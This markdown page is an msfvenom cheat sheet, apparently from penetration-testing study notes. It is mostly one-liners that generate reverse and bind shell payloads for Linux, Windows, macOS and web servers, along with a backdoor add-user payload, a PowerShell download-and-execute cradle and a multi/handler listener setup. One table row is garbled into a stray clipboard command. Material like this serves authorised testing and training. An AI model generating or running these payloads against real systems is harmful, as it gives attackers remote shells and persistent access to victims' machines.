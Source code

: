 ```yaml
---
title : "Msfvenom"
# pre : ' '
description : " Msfvenom is a command line instance of Metasploit that is used to generate and output all of the various types of shell code that are available in Metasploit."
date : 2021-02-08T09:52:22+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Msfvenom

Msfvenom is a command line instance of Metasploit that is used to generate and output all of the various types of shell code that are available in Metasploit.

### Flags

MSFVenom Payload Generation One-Liner | Description
| :------------- | :----------- |
msfvenom -l payloads | List available payloads
msfvenom -p PAYLOAD –list-options | List payload options
msfvenom -p PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT LHOST=IP | Payload Encoding
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf | Linux Meterpreter reverse shell x86 multi stage
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf | Linux Meterpreter bind shell x86 multi stage
msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf | Linux bind shell x64 single stage
msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf | Linux reverse shell x64 single stage
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe | Windows Meterpreter reverse shell
msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36” -f exe > shell.exe | Windows Meterpreter http reverse shell
msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe | Windows Meterpreter bind shell
msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe | Windows CMD Multi Stage
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe | Windows CMD Single Stage
msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe | Windows add user
msfvenom -p osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho > shell.macho | Mac Reverse Shell
msfvenom -p osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho > shell.macho | Mac Bind shell
msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py | Python Shell
msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > shell.sh | BASH Shell
msfvenom -p cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw > shell.pl | PERL Shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > shell.asp | ASP Meterpreter shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.jsp | JSP Shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war | WAR Shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.php cat shell.php | pbcopy && echo '?php '
msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php | Php Reverse Shell
msfvenom -a x86 –platform Windows -p windows/exec CMD="powershell \“IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')"” -f python | Windows Exec Nishang Powershell in python
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b “\x04\xA0” | Bad characters shikata_ga_nai
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/fnstenv_mov -b “\x04\xA0” | Bad characters fnstenv_mov

### Examples

To get multiple session on a single multi/handler, you need to set the ExitOnSession option to false and run the exploit -j instead of just the exploit. For example, for meterpreter/reverse_tcp payload,

```plain
msf>use exploit/multi/handler  
msf>set payload windows/meterpreter/reverse_tcp  
msf>set lhost <IP>  
msf>set lport <PORT>  
msf> set ExitOnSession false  
msf>exploit -j  
```

The -j option is to keep all the connected session in the background.

### URL list

* [Thor-sec.com - msfvenom cheat sheet](https://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/)
